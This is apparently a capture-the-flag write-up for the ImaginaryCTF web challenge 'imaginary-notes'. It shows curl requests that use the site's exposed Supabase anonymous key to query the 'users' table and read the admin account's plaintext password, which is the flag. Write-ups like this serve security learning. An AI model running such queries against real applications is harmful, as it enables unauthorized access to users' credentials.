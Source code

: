 # imaginary-notes [WEB]

> I made a new note taking app using Supabase! Its so secure, I put my flag as the password to the `admin` account. I even put my anonymous key somewhere in the site. The password database is called `users`. \
> http://imaginary-notes.chal.imaginaryctf.org \
> By @cleverbear57

![login/signup page of the challenge](images/imaginaryctf_imaginary-notes.png)

## Messing around

I messed up by clicking the "Sign Up" button and leaving both inputs empty.

I saw it did the following request to know if my user already existed.

```bash
curl 'https://dpyxnwiuwzahkxuxrojp.supabase.co/rest/v1/users?select=id&username=eq.' \
  -H 'accept: application/json' \
  -H 'accept-profile: public' \
  -H 'apikey: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJzdXBhYmFzZSIsInJlZiI6ImRweXhud2l1d3phaGt4dXhyb2pwIiwicm9sZSI6ImFub24iLCJpYXQiOjE3NTE3NjA1MDcsImV4cCI6MjA2NzMzNjUwN30.C3-ninSkfw0RF3ZHJd25MpncuBdEVUmWpMLZgPZ-rqI' \
  -H 'authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJzdXBhYmFzZSIsInJlZiI6ImRweXhud2l1d3phaGt4dXhyb2pwIiwicm9sZSI6ImFub24iLCJpYXQiOjE3NTE3NjA1MDcsImV4cCI6MjA2NzMzNjUwN30.C3-ninSkfw0RF3ZHJd25MpncuBdEVUmWpMLZgPZ-rqI' \
  -H 'x-client-info: supabase-js-web/2.50.3'
```

So I asked myself, what if I select all the users?

## Getting `admin` user

After a bit of tweaking, I got this URL.

```bash
curl 'https://dpyxnwiuwzahkxuxrojp.supabase.co/rest/v1/users?select=*&username=eq.admin' \
  -H 'accept: application/json' \
  -H 'accept-profile: public' \
  -H 'apikey: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJzdXBhYmFzZSIsInJlZiI6ImRweXhud2l1d3phaGt4dXhyb2pwIiwicm9sZSI6ImFub24iLCJpYXQiOjE3NTE3NjA1MDcsImV4cCI6MjA2NzMzNjUwN30.C3-ninSkfw0RF3ZHJd25MpncuBdEVUmWpMLZgPZ-rqI' \
  -H 'authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJzdXBhYmFzZSIsInJlZiI6ImRweXhud2l1d3phaGt4dXhyb2pwIiwicm9sZSI6ImFub24iLCJpYXQiOjE3NTE3NjA1MDcsImV4cCI6MjA2NzMzNjUwN30.C3-ninSkfw0RF3ZHJd25MpncuBdEVUmWpMLZgPZ-rqI' \
  -H 'x-client-info: supabase-js-web/2.50.3'
```

Here, we're selecting a `username` that equals `admin` and we're also selecting all the columns with `*`.

```json
[
  {
    "id": "5df6d541-c05e-4630-a862-8c23ec2b5fa9",
    "username": "admin",
    "password": "ictf{why_d1d_1_g1v3_u_my_@p1_k3y???}"
  }
]
```

Here's our flag, was pretty simple.
